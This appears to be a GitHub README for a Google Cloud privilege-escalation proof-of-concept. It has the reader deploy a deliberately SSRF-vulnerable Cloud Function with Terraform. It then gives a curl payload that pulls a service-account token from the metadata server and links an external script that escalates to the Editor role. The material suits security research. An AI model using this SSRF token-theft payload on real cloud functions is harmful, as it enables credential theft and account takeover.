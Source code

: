 # PrivEsc PoC for iam.serviceAccounts.signBlob method for signing URLs

## Setup
1. Create [a new project](https://cloud.google.com/resource-manager/docs/creating-managing-projects#creating_a_project) in Google Cloud environment and choose it as current working one.
2. Enable [Cloud Resourse Manager API](https://console.cloud.google.com/apis/library/cloudresourcemanager.googleapis.com) for your project.
3. Open Cloud Shell and ensure that the current project is the new created one.
4. Download Terraform script and setup a vulnerable to SSRF Cloud Function:
```bash
git clone https://github.com/Horlad/signBlob_PrivEsc_PoC.git
cd signBlob_PrivEsc_PoC/terraform
terraform init -upgrade
terraform apply --var gcp_project_id=YOUR_GCP_PROJECT_ID
```

## Exploitation
1. In Terraform output you can locate a URL to the vulnerable Cloud Function. Exploit SSRF to obtain a temporary token of an attached service account which use `iam.serviceAccounts.signBlob` permission to sign URLs.
```
curl https://YOUR.CLOUD.FUNCTION.DOMAIN/?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/token&auth=Metadata-Flavor:%20Google
```
2. The Terraform output you can also find `App Engine` and `Compute Engine` default service accounts which were created automatically during the Cloud Function creation without explicit instructions. You can use them to escalate to `Editor` role via [the Rhinosecurity exploit](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py).
